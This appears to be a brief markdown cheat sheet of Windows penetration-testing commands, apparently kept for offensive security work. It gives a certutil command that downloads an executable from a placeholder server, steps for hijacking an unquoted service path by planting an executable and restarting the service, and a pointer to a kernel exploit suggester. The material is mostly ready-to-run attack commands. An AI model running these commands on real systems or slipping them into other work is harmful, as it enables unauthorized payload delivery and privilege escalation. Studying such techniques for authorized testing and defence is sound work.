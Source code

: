 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

Run `dir` recursively:
```
gci -recurse .
```

Unquoted Service Paths:
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester - new]([https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/bitsadmin/wesng))
